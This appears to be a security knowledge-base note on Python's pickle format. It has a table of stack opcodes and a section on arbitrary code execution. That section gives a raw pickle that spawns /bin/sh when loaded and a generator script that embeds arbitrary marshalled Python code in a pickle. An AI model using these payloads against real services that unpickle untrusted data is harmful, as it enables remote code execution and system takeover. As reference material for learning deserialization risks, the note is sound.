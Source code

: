 ```yaml
---
layout: kb
title:  "Pickle"
category: Hacking
---
```


Python includes a serialization library called `pickle` to write /
read Python objects. It uses a stack based language for the interpreter.

| Instruction | Description |
| ----------- | ----------- |
| `c` | Read to the newline as the module name; read the next line as the module object; push `module.object` onto the stack |
| `(` | Push a MARK object onto the stack |
| `S` | Push trailing string in quotes onto the stack |
| `V` | Push trailing unicode string in quotes onto the stack |
| `l` | Pop everything off the stack until MARK into a list; push the list back onto the stack |
| `t` | Pop everything off the stack until MARK into a tuple; push the tuple back onto the stack |
| `R` | Pop two objects off the stack (argument and callable); apply the function to the arguments; push the result back onto the stack |
| `p` | Read to the newline as the `index`; peek at the top stack object and store it in memo `index` |
| `g` | Read to the newline as the `index`; grab an object from memo `index` and push onto the stack |
| `0` | Pop and discard the topmost stack item |
| `.` | End of the pickle |

## Arbitrary Code Execution
The following will spawn `/bin/sh` when unpickled and is equivalent to:

```python
import os
os.system('/bin/sh')
```

```
cos
system
(S'/bin/sh'
tR.
```

Below is a Python program that allows you to write a payload in Python
that will get executed when unpickled. [Source](https://checkoway.net/musings/pickle/)

```python
import marshal
import base64

# payload() will be executed when unpickled
def payload():
    pass

print("""ctypes
FunctionType
(cmarshal
loads
(cbase64
b64decode
(S'%s'
tRtRc__builtin__
globals
(tRS''
tR(tR.""" % base64.b64encode(marshal.dumps(payload.__code__)).decode())
```
